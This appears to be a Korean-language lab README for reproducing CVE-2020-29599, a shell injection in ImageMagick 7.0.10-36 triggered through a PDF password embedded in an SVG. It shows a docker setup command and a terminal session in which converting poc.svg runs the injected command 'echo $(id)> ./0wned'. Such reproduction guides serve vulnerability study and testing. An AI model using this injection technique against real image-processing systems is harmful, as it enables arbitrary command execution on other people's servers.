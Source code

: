 # ImageMagick Shell Injection via PDF Password (CVE-2020-29599)

ImageMagick은 래스터 이미지를 표시하고, 생성하고, 변환하고, 수정하고, 편집하는 데 사용되는 무료이며 오픈소스인 크로스 플랫폼 소프트웨어 스위트입니다.

References:

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## Environment Setup and Exploit

Imagemagick 7.0.10-36이 설치된 Linux 쉘에 들어가려면 다음 명령어를 실행하십시오:

```
docker compose run im bash
```

/tmp 디렉토리로 들어가서 poc.svg의 형식을 변환하여 취약점을 트리거하십시오:

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp#
```

명령어 echo $(id)> ./0wned가 성공적으로 실행되었습니다:

![](1.png)
